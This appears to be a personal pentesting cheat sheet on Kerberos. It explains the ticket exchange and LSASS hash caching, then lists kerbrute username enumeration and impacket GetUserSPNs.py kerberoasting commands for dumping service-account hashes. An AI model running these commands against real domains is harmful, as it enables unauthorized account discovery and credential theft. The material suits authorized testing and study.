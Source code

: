 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Kerberos_Pentesting
---
```



<span style="font-size: 35px; color:red"><b>Kerberos</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Theory</b></span>
Ticket-based system.

DC works as Key Distribution Center (KDC)

1) Client authenticating to the DC with an <span style="color:red">Authentication Server request</span> (AS_REQ) containing a timestamp+user creds in hash format.
2) The server replies with an <span style="color:red">Authentication Server reply</span> (AS_REP) that contains a session key and a <span style="color:red">Ticket Granting Ticket</span> (TGT, valid for 10 hours).
3) When the client tries to reach resources in the AD, the DC is contacted again.
4) The Server sends a <span style="color:red">Ticket Granting Service</span> (TGS).

Due to the automatic renewal of TGTs, password hashes are cached in the <span style="color:red">Local Security Authority Subsystem Service</span> (LSASS) memory space.
If we gain access to these hashes, we could crack them to obtain the clear text password or reuse them to perform various actions.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Find Vaild Usernames</b></span>
Enumerate valid usernames on the Domain using Kerberos Pre-Auth
```shell
kerbrute userenum <username_list> -d <DOMAIN> --dc <DC_IP>
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Dump Hashes Without Password</b></span>

<span style="font-size: 18px; color:white"><b>GetUserSPNs.py (Kerberoast)</b></span>
To try kerberoasting (the -request will request the ticket and therefore dump the hash)
```shell
GetUserSPNs.py -dc-ip <IP> -request '<DOMAIN>/user'
```
and try submitting the password if you have it

```shell
GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<Username>:<password>
```
the user:pass is only to login, the command will still dump all the kerberostable users
